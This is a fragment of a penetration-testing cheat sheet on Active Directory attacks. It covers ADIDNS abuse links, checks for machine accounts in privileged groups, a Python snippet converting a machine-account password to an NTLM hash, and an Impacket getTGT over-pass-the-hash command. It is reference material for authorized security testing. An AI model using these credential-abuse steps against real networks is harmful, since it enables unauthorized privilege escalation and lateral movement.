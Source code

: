 - https://www.gosecure.net/blog/2019/02/20/abusing-unsafe-defaults-in-active-directory/
- https://www.netspi.com/blog/technical/network-penetration-testing/exploiting-adidns/
- https://www.netspi.com/blog/technical/network-penetration-testing/adidns-revisited/
- https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/adidns-abuse
- 

### Exploiting machine accounts (WS01$)
- https://pentestlab.blog/2022/02/01/machine-accounts/
- https://secarma.com/using-machine-account-passwords-during-an-engagement/

> Every computer joined to Active Directory (AD) has an associated computer account in AD. A computer account in AD is a security principal (same as user accounts and security groups) and as such has a number of attributes that are the same as those found on user accounts including a Security IDentifier (SID), memberOf, lastlogondate, passwordlastset, etc.

- Check the group membership for a machine account, sometime the machine account is member of elevated group or **Domain Admins**

```
Get-ADComputer -Filter * -Properties MemberOf | ? {$_.MemberOf}
net group "domain admins" /domain
```

Converting machine account Hex value to NTLM hash:
```
import hashlib,binascii hexpass = "e6 5f 92..."
hexpass = hexpass.replace(" ","")
passwd = hexpass.decode("hex")
hash = hashlib.new('md4', passwd).digest()
print binascii.hexlify(hash)
```

### Over-Pass-The-hash
- https://medium.com/r3d-buck3t/play-with-hashes-over-pass-the-hash-attack-2030b900562d
- blog.gentilkiwi.com/securite/mimikatz/overpass-the-hash

Use the user or computer NTLM hash to request Kerberos tickets.
--> Alternative to Pass The hash over NTLM protocol  
--> Useful in networks where NTLM protocol is disabled and only Kerberos is allowed.  

```
getTGT.py domain.local/workstation1$ -hashes XXXXXXXXXXXXXXXXXXXXXXXXXXX:XXXXXXXXXXXXXXXXXXXXXXXXXXX -dc-ip 192.168.0.10 -debug
KRB5CCNAME=/home/test/lutzenfried/tooling/workstation1\$.ccache

```
Potential error when using Over Pass The Hash attack due to the Kerberos and time.
```
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```
--> Error raised because of your local time, you need to synchronise the host with the DC: ```ntpdate <IP of DC>```

### Pass The ticket
- https://book.hacktricks.xyz/windows/active-directory-methodology/pass-the-ticket
